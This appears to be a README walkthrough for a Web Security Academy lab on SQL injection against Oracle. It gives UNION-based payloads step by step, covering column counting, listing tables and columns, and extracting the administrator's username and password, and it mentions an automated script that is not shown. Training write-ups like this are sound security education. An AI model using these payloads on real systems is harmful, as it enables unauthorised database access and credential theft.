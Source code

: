 # SQL Injection Lab 06 - SQL injection attack, listing the database contents on Oracle

## Manual Solution

### 1. Access the lab in Web Security Academy
### 2. Determine the number of columns for UNION attack
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: Error (confirms 2 columns)

### 3. Verify column data types:
   - Test: `/filter?category=Gifts' UNION SELECT '1', '2' FROM dual--`
   - Result: Values '1' and '2' displayed (confirms string compatibility)

### 4. List the database contents:
   - Test: `/filter?category=Gifts' UNION SELECT NULL,table_name FROM all_tables --`
   - Result: List of tables in the database. There are many tables, we don't know which one has the username and password.

### 5. List the table like USERS% :
   - Test: `/filter?category=Gifts' UNION SELECT table_name,column_name FROM all_tab_columns WHERE table_name LIKE 'USERS_%' --`
   - Result: You'll see a table starts with users_... and its columns. Example: USERS_HZPHRO and its columns are PASSWORD_MZORWL and USERNAME_GZKLJS.

### 6. Extract the username and password:
   - Test: `/filter?category=Gifts' UNION SELECT [YOUR_COLUMN_NAME],[YOUR_COLUMN_NAME] FROM [YOUR_TABLE_NAME]--`
   - Result: administrator and password

### 7. Login to the administrator account

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_06.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

